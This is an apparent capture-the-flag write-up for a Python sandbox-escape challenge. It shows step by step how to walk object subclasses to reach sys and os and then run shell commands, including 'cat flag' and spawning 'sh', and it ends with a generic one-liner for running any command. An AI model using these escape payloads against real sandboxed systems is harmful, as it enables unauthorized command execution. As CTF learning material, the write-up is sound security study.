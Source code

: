# Secure import

## Summary 
This challenge is a fairly standard pyjail, which restricts the types of modules we are allowed to use. Als it uses a seperate library to handle imports which means we can't import other libraries(that the coder didn't specify). The pathway in this case is to sort through the subclases of the base class and find a module that exposes dangerous libraries.

# Approach
In order to break out of this pyjail, we must first find a dangerous library that is being loaded. The hacktricks website does a great job of explaining this and gives us a good one liner to use to find these dangerous modules. 
https://book.hacktricks.xyz/generic-methodologies-and-resources/python/bypass-python-sandboxes 
```python
[ x.__name__ for x in ''.__class__.__base__.__subclasses__() if "wrapper" not in str(x.__init__) and "sys" in x.__init__.__globals__ ]
```
as you can probably see from the one liner, the script finds subclasses that have the sys library loaded into its globals. With that we can access the sys library and import any module we want, including the os library. 

After running this one liner we get some juicy modules to break...
```
['_ModuleLock', '_DummyModuleLock', '_ModuleLockManager', 'ModuleSpec', 'FileLoader', '_NamespacePath', '_NamespaceLoader', 'FileFinder', 'IncrementalEncoder', 'IncrementalDecoder', 'StreamReaderWriter', 'StreamRecoder', '_wrap_close', 'Quitter', '_Printer', '_TrivialRe', 'WarningMessage', 'catch_warnings']
```

I merely chose the first one, '_ModuleLock', which happened to be at index 100 so we have a line to access that module...
```python
''.__class__.__base__.suclasses__()[100]
```

then we acces the init properties and the global values so we can use the "sys" library
```python
''.__class__.__base__.__subclasses__()[100].__init__.__globals__["sys"]
```

finally we load the os moduel and access the system function calling "cat flag" in order to actually print out the flag
```python
''.__class__.__base__.__subclasses__()[100].__init__.__globals__["sys"].modules["os"].system("cat flag")
```

PS: You can also use the sh command to get a shell on the server which makes it a bit easier to grab info, and is also much more fun 
```python
''.__class__.__base__.__subclasses__()[100].__init__.__globals__["sys"].modules["os"].system("sh")
```

## Oneliner
Here is the oneliner that can be created to automate this process replacing ls with whatever command you want to run
```python
[ x.__init__.__globals__ for x in ''.__class__.__base__.__subclasses__() if "wrapper" not in str(x.__init__) and "os" in x.__init__.__globals__ ][0]["os"].system("ls")
```